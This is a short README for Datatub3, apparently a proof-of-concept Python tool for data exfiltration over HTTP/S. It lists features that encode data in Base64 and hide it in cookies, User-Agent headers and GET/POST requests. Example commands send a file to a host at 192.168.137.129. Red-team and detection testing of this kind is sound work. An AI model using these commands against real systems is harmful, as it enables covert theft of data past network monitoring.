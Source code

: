 # Datatub3

Tool development to make PoC of Data Exfiltration HTTP/S (Client Version).

![Datatub3](https://i.imgur.com/PJzFODI.png)

# Install

 $ git clone https://github.com/xf5/datatub3

 $ python3 datatub3.py

# Exfiltration Features
- User-Agent
- Cookie
- POST Request
- GET Request
- All requests encoded with Base 64

# Exemples
### Exfiltration Cookie
python3 datatub3.py -u http://192.168.137.129 --cookie poc.txt

### Exfiltration User-Agent
python3 datatub3.py -u http://192.168.137.129 --useragent poc.txt

### Exfiltration Base 64
python3 datatub3.py -u http://192.168.137.129 –post-b64 poc.txt

![Command](https://i.imgur.com/Eoe2Kol.png)

![Packet](https://i.imgur.com/IR69st8.png)

# Requirements
- Python 3
